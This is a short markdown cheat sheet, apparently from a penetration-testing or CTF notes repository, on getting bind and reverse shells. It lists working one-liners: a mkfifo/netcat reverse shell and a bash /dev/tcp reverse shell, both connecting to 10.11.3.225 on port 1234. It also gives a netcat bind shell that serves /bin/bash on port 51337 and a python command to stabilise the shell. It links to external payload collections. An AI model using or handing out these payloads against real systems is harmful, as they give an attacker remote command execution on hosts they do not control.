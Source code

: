 # Bind / Reverse Shell

## Tips : 
https://www.revshells.com/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php  

### Reverse shell basic payloads
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.3.225 1234 >/tmp/f
bash -i >& /dev/tcp/10.11.3.225/1234 0>&1
```


### BIND SHELL :
***Remote***
```bash
nc -nlvp 51337 -e /bin/bash
```
***Local***
```bash
nc IP 51337
```


### Stabilize
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; 
export TERM=xterm ; export SHELL=bash
```
